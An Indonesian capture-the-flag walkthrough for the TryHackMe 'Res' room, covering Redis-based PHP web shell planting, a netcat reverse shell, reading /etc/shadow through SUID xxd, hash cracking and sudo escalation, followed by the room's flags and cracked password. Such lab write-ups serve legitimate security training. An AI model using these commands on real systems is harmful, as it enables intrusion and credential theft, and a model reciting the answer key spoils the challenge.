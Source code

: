 # CTF - RES
- TryHackMe Challenge: https://tryhackme.com/room/res
- IP Machine: 10.10.191.28

## Port Scanning
- Baris perintah: `nmap -sV -p- -T4 <IP Machine>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%201.JPG)

- Buka halaman web `http://<IP_machine>` di browser

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%202.JPG)

## Redis Exploit
- Akses Redis dengan tool redis-cli dengan perintah `redis-cli -h <IP_Machine>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%203.JPG)

- Buat Shell melalui Redis dengan perintah sebagai berikut
```sh
config set dir /var/www/html
config set dbfilename shell.php
set test "<?php system($_GET['cmd']) ?>"
save
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%204.JPG)

- Lakukan pengujian shell melalui browser dengan url `http://10.10.191.28/shell.php?cmd=id`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%205.JPG)

- Buat Reverse Shell menggunakan netcat dengan perintah sebagai berikut:
```sh
nc -e /bin/bash <IP tun0> 4444
```

- Encode reverse shell menggunakan tool URL Encoder online https://www.urlencoder.org/
```sh
nc%20-e%20%2Fbin%2Fbash%20<IP tun0>%204444
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%206.JPG)

- Buka terminal dan jalankan netcat dengan perintah `nc -lnvp <port>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%207.JPG)

- Jalankan Reverse Shell melalui browser dengan url sebagai berikut:
```sh
http://<IP_Machine>/shell.php?cmd=nc%20-e%20%2Fbin%2Fbash%20<IP tun0>%204444
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%208.JPG)

- Netcat berhasil terkoneksi

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%209.JPG)

- Disini terlihat bahwa terminal belum interaktif. Jadi buat menjadi terminal interaktif dengan perintah sebagai berikut
```sh
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%2010.JPG)

## Gain Access
- Cari semua SUID yang dapat dieksekusi dengan perintah dibawah ini
```sh
find / -type f -user root -perm -4000 2>/dev/null
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%2011.JPG)

- Disini ditemukan SUID **/usr/bin/xxd**. Kita bisa memanfaatkan script di https://gtfobins.github.io/gtfobins/xxd/#file-read untuk melakukan eskalasi lebih lanjut. Gunakan script dibawah ini untuk membaca file **/etc/shadow** dan copy hash vianka
```sh
LFILE=/etc/shadow
/usr/bin/xxd "$LFILE" | /usr/bin/xxd -r
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%2012.JPG)
![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%2013.JPG)

- Masukkan hash vianka ke dalam sebuah file dilocal dengan perintah `echo <hash> > <nama_file>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%2014.JPG)

- Crack hash vianka menggunakan tool john the ripper dengan perintah `john <wordlists> <hash_file>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%2015.JPG)

- Switch ke user vianka dengan perintah `su vianka` kemudian masukkan password yang sudah ditemukan

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%2016.JPG)

- Pada directory **/home** terdapat directory **vianka**. Pada directory **/home/vianka** terdapat file **user.txt** sebagai user flag. Buka file **user.txt**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%2017.JPG)

## Privilege Escalation
- Gunakan perintah `sudo -l` untuk melihat perintah yang bisa dijalankan tanpa akses root

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%2018.JPG)

- Dari hasil perintah diatas, kita bisa masuk ke user root hanya dengan perintah `sudo su`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%2019.JPG)

- Buka root flag yang berada di /root/root.txt dengan perintah `cat /root/root.txt`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%2020.JPG)

## Pertanyaan dan Jawaban:

- **Pertanyaan:** Scan the machine, how many ports are open?
```sh
2
```

- **Pertanyaan:** What's is the database management system installed on the server?
```sh
redis
```

- **Pertanyaan:** What port is the database management system running on?
```sh
6379
```

- **Pertanyaan:** What's is the version of management system installed on the server?
```sh
6.0.7
```

- **Pertanyaan:** Compromise the machine and locate user.txt
```sh
thm{red1s_rce_w1thout_credent1als}
```

- **Pertanyaan:** What is the local user account password?
```sh
beautiful1
```

- **Pertanyaan:** Escalate privileges and obtain root.txt
```sh
thm{xxd_pr1v_escalat1on}
```